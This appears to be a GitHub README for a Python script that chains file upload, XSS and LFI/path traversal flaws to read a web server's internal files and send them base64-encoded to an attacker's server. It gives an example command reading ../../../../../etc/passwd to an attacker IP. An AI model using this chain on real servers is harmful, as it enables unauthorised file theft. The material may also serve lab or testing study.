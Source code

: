 # WebVulnsChainingAutomation
This script automates the process of exploiting a chain of web vulnerabilities, which include File Upload, XSS, LFI & Path Traversal, that allows you to read internal files from a web server.

The process goes like the following:
1. First we abuse a File Upload functionality in order to upload a malicious Markdown (.md) file that contains a script which makes a fetch to and endpoint that includes files through a ?file parameter in a way that is vulnerable to LFI.
2. There's an option to share the uploaded file, and a "Contact Us" form which is vulnerable to XSS, chaining this we are able to fetch resources to a web server from ourselves.
3. Finally we receive the contents encoded in base64 in our server, decode them and shem through the terminal, all with just one line.

To run the script:
`python3 vulnschain.py <file-to-read> <attacker-ip>`
E.g. `python3 vulnschain.py ../../../../../etc/passwd 10.10.1.2`
